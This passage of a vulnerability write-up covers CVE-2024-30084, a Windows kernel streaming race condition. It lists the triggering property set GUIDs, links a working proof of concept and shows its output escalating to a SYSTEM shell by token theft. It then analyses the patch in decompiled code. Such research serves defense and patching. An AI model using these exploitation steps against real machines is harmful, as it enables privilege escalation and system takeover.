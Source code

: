 Using any of the following property set GUIDs as the initial copy and then changing it back to `KSPROPSETID_DrmAudioStream` will lead to the same vulnerability. These GUIDs were identified through reverse engineering the `KspPropertyHandler()` function, where it checks the GUID that triggers a call to `UnserializePropertySet()`, as well as from the [`ks.h`](https://github.com/tpn/winsdk-10/blob/master/Include/10.0.10240.0/shared/ks.h) header file, as follows:

- 8C134960-51AD-11CF-878A-94F801C10000 - KSPROPSETID_Pin
- 720D4AC0-7533-11D0-A5D6-28DB04C10000 - KSPROPSETID_Topology
- 1464EDA5-6A8F-11D1-9AA7-00A0C9223196 - KSPROPSETID_General


## Exploit

Tested on: Windows 11 23H2  
Working POC: https://github.com/ghostbyt3/WinDriver-EXP/tree/main/CVE-2024-30084

```
PS C:\Users\h4x\Desktop> whoami
desktop-3rgmcon\h4x
PS C:\Users\h4x\Desktop> .\CVE-2024-30084.exe
[+] Successfully opened internal topology of an audio device!
[+] NT base address fffff8010fe00000
[+] Found EPROCESS of the current process FFFFD70BF11E70C0
[+] Found KTHREAD of the current thread FFFFD70BED9A4080
[+] Found EPROCESS of the system.exe FFFFD70BEA104040
[+] pFakeBitmapAddr = 0x0000000010000000
[+] Beginning race condition...
[+] Calling Kernel Streaming....
[+] Stealing system's Token..
[+] Replacing KTHREAD.PreviousMode as UserMode..
[+] Spawning shell as SYSTEM...
Microsoft Windows [Version 10.0.22631.3593]
(c) Microsoft Corporation. All rights reserved.

C:\Users\h4x\Desktop>whoami
nt authority\system

```

## Patch Analysis

The patched version adds checks to ensure the `KSPROPERTY→Set` is not set to `KSPROPSETID_DrmAudioStream`. The first `memmove`/`memcpy` operation in `KspPropertyHandler()` has also been removed.

```c++
STATUS __fastcall KspPropertyHandler(
        PIRP Irp,
        unsigned int a2,
        __int64 a3,
        __int64 (__fastcall *a4)(_QWORD, _QWORD, _QWORD),
        unsigned int a5,
        __int64 a6,
        unsigned int a7)
{
  __int64 v7; // rbx
  struct _IO_STACK_LOCATION *CurrentStackLocation; // r15
  unsigned int Options; // r10d

[::]

  if ( v23 == 4096 )
            {
              LOBYTE(v20) = (unsigned int)Feature_2849679676__private_IsEnabledDeviceUsage() != 0;
              if ( !v20
                || *(_QWORD *)v21 != *(_QWORD *)&KSPROPSETID_DrmAudioStream.Data1
                || *(_QWORD *)(v21 + 8) != *(_QWORD *)KSPROPSETID_DrmAudioStream.Data4 ) // Fix
```